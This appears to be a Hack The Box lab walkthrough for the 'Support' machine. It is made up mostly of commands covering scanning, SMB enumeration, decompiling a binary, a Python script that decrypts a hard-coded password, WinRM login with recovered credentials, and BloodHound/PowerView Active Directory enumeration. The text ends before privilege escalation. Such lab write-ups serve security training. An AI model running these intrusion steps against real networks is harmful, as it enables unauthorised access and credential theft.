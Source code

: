 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.174
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c513fb68-50d1-41b4-8934-27824a4ed58e)

```
smbclient -L \\\\10.10.11.174\\
smbclient \\\\10.10.11.174\\support-tools
```
![image](https://github.com/regarmulia/HTB/assets/33616880/71fa0c96-fe56-4321-851b-d46f6b8f8795)

```
unzip UserInfo.exe.zip
cat UserInfo.exe.config
```
![image](https://github.com/regarmulia/HTB/assets/33616880/98094d02-a256-46d6-9bf1-f38c289f4c73)


```
wget https://github.com/icsharpcode/AvaloniaILSpy/releases/download/v7.2-rc/Linux.x64.Release.zip
unzip Linux.x64.Release.zip
unzip ILSpy-linux-x64-Release.zip
cd artifacts/linux-arm64
sudo ./ILSpy
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c25352b4-a0c5-4d1c-bd87-6b71045eee0f)

```
import base64
from itertools import cycle

enc_password = base64.b64decode("0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E")
key = b"armando"
key2 = 223

res = ''
for e,k in zip(enc_password, cycle(key)):
        res += chr(e ^ k ^ key2)

print(res)
```
```
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2b3ae44c-1a69-4e82-92c3-0ffaac79088c)


```
wget https://dlcdn.apache.org/directory/studio/2.0.0.v20210717-M17/ApacheDirectoryStudio-2.0.0.v20210717-M17-linux.gtk.x86_64.tar.gz
tar -xf ApacheDirectoryStudio-2.0.0.v20210717-M17-linux.gtk.x86_64.tar.gz
./ApacheDirectoryStudio
Ironside47pleasure40Watchful
```
![image](https://github.com/regarmulia/HTB/assets/33616880/875c3cc4-807f-429a-8bb9-8b8e08ac724e)


```
evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i support.htb
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f0f57e9e-b8fc-4d4d-b8ac-3a129655c56f)


```
Get-ADDomain
echo '10.129.178.26 dc.support.htb' | sudo tee -a /etc/hosts
whoami /groups
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1f8391b0-f0b9-4bac-ac66-73d102f2e7df)


```
sudo neo4j start
/opt/BloodHound/BloodHound-linux-x64 ./BloodHound --no-sandbox

upload SharpHound.exe
./SharpHound.exe
download 20240514001541_BloodHound.zip
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3a94dd19-bd0e-46f4-8099-c5e90c3cb25b)

![image](https://github.com/regarmulia/HTB/assets/33616880/91ef72f1-2187-471b-9c81-94bebd11c9d6)

![image](https://github.com/regarmulia/HTB/assets/33616880/e6e064fc-121f-4fe9-b1c8-2202bedd5815)


```
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
upload PowerView.ps1
. ./PowerView.ps1
Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3d6b600f-4598-4175-bd67-5112eda8a285)
